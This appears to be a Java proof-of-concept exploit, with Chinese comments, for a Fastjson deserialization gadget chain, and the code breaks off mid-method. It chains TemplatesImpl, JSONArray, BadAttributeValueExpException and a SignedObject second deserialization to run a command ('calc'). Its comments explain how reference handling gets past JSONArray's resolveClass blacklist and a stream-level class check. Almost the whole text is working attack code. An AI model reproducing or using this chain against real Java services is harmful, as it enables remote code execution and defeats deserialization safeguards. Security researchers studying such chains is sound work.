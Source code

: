  **exp**

    
    
    package gadget.fastjson;  
      
    import com.alibaba.fastjson.JSONArray;  
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
    import gadget.doubleunser.MyInputStream;  
    import util.GadgetUtils;  
    import util.ReflectionUtils;  
    import util.SerializerUtils;  
      
    import javax.management.BadAttributeValueExpException;  
    import java.io.ByteArrayInputStream;  
    import java.io.ObjectInputStream;  
    import java.io.Serializable;  
    import java.security.KeyPair;  
    import java.security.KeyPairGenerator;  
    import java.security.Signature;  
    import java.security.SignedObject;  
    import java.util.ArrayList;  
    import java.util.List;  
      
    public class FJ2 {  
        public static void main(String\[\] args) throws Exception{  
      
            List<Object\> list \= new ArrayList<>();  
      
            TemplatesImpl templates \= GadgetUtils.createTemplatesImpl("calc");  
      
            list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测  
      
            JSONArray jsonArray2 \= new JSONArray();  
            jsonArray2.add(templates);           //此时在handles这个hash表中查到了映射，后续则会以引用形式输出  
      
            BadAttributeValueExpException bd2 \= new BadAttributeValueExpException(null);  
            ReflectionUtils.setFieldValue(bd2,"val",jsonArray2);  
      
            list.add(bd2);  
      
            //二次反序列化  
            KeyPairGenerator kpg \= KeyPairGenerator.getInstance("DSA");  
            kpg.initialize(1024);  
            KeyPair kp \= kpg.generateKeyPair();  
            SignedObject signedObject \= new SignedObject((Serializable) list, kp.getPrivate(), Signature.getInstance("DSA"));  
      
            //触发SignedObject#getObject  
            JSONArray jsonArray1 \= new JSONArray();  
            jsonArray1.add(signedObject);  
      
            BadAttributeValueExpException bd1 \= new BadAttributeValueExpException(null);  
            ReflectionUtils.setFieldValue(bd1,"val",jsonArray1);  
      
            //验证  
            byte\[\] payload \= SerializerUtils.serialize(bd1);  
      
            ObjectInputStream ois \= new MyInputStream(new ByteArrayInputStream(payload));  //再套一层inputstream检查TemplatesImpl，不可用  
            ois.readObject();  
      